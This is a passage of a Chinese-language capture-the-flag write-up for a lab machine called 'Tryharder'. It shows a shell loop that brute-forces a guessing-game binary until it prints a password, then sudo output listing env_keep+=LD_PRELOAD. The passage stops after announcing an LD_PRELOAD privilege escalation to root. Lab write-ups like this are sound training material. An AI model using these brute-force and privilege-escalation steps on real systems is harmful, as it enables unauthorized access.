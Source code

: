 ## 爆破打法

在用户目录下发现一个猜数游戏

```bash
(remote) xiix@Tryharder:/home/xiix$ ls -laih
total 44K
148005 drwxr-xr-x 3 xiix xiix 4.0K Mar 25 01:32 .
   193 drwxr-xr-x 4 root root 4.0K Mar 23 10:46 ..
131746 -rw------- 1 root root    0 Mar 25 07:20 .bash_history
148008 -rw-r--r-- 1 xiix xiix  220 Apr 18  2019 .bash_logout
140438 -rw-r--r-- 1 xiix xiix 3.5K Mar 23 12:05 .bashrc
131378 ---x------ 1 xiix xiix  18K Mar 25 01:32 guess_game
140446 drwxr-xr-x 3 xiix xiix 4.0K Mar 23 23:44 .local
148006 -rw-r--r-- 1 xiix xiix  807 Apr 18  2019 .profile
```

:::note

捷径是在 `/tmp` 目录中，可以通过 `pspy` 监控进程来发现

:::

直接开始爆破，成功拿到信息

```bash
(remote) xiix@Tryharder:/home/xiix$ for i in $(seq 1000);do echo 32 | ./guess_game ;done
......
===== 终极运气挑战 / Ultimate Luck Challenge ====
规则很简单： 我心里有个数字（0-99），你有一次机会猜。
I have a number (0-99), you get one guess.
猜对了，我就把属于你的东西给你；猜错了？嘿嘿，后果自负！
Guess right, I’ll give your reward; wrong? Hehe, face the consequences!
提示： 聪明人也许能找到捷径。
Hint: Smart ones might find a shortcut.
天哪！你居然猜对了！运气逆天啊！ / You got it! Amazing luck!
Pass: superxiix
```

并获取到 sudo 信息

```bash
(remote) xiix@Tryharder:/home/xiix$ sudo -l
[sudo] password for xiix:
Matching Defaults entries for xiix on tryharder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=LD_PRELOAD

User xiix may run the following commands on tryharder:
    (ALL : ALL) /bin/whoami
```

## 提权至 root

那么就简单了，使用 `env_keep+=LD_PRELOAD` 进行攻击
